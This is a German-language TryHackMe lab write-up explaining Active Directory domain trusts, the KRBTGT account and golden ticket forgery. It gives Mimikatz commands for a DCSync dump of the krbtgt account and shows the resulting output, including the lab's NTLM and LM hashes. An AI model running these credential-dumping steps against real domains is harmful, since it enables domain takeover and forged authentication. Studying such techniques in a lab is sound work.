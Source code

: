 ## Domain Trusts

Es gibt ja in einem Active Directory die User. Die User arbeiten an Computern. Die Computer und User werden einer Domain zugeordnet. Wenn man jetzt bspw. eine weitere Domain hat, die vielleicht in einem anderen Land liegt, kann man diese Domains verbinden. Dann spricht man von einem Forest. Man legt also eine Domain über die ganzen anderen Domains. Das ist dann die root oder Parent Domain. In unserem Beispiel ist die root Domain tryhackme.loc und za.tryhackme.loc (ZA) ist eine Child Domain. Das Vertrauensverhältnis von Child zu Parent ist Bidrektional. Somit transediert das Vertrauensverhältnis entsprechend auch zu anderen Domains in diesem Forest. Dieses Vertrauensverhältnis wollen wir jetzt ausnutzen indem wir eine Child Domain pwnen und somit im Anschluß die Parent Domain pwnen.

## KRBTGT and Golden Tickets

KRBTGT wird der Account genannt, der für die implementierung von Kerberos in einem AD genutzt wird. Im Prinzip wird dieser Account als Service Account für den KDC (Kerberos Distribution Center) benutzt, der alle Kerberos Tickets requests bearbeitet, indem er sie verschlüsselt und signiert. Alle Domain Controller enthalten die Password Hashes und können so die eingehenden TGT überprüfen die User für den Zugriff von Ressourcen übermitteln. 

Beim erstellen eines Goldenen Tickets umgehen wir den KRBTGT bzw. KDC komplett und erstellen unsere eigenen TGT's und werden im Prinzip zu einem Ticket Granting Server. 
Um TGTs zu fälschen, benötigen wir folgende Informationen:

   - Den FQDN der Domäne
   - Die Sicherheitskennung (SID) der Domäne
   - Den Benutzername des Kontos, das wir nachahmen möchten
   - Der KRBTGT-Passwort-Hash

Die ersten drei lassen sich normalerweise leicht herausfinden. Letzteres erfordert eine Domänenkompromittierung, da der KRBTGT-Passwort-Hash nur auf Domänencontrollern gespeichert wird.

Wir starten Mimikatz und führen einen lsadump::dcsync Befehl aus
   > mimikatz.exe

   > privilege::debug
   
   > lsadump::dsync /user:za\krbtgt


```
mimikatz # lsadump::dcsync /user:za\krbtgt
[DC] 'za.tryhackme.loc' will be the domain
[DC] 'THMDC.za.tryhackme.loc' will be the DC server
[DC] 'za\krbtgt' will be the user account

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 4/25/2022 6:18:22 PM
Object Security ID   : S-1-5-21-3885271727-2693558621-2658995185-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 16f9af38fca3ada405386b3b57366082
    ntlm- 0: 16f9af38fca3ada405386b3b57366082
    lm  - 0: 35c7b671efe40860dc078afd2786c902

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4bf7050f5f09f6d59a8699081d9ed432

```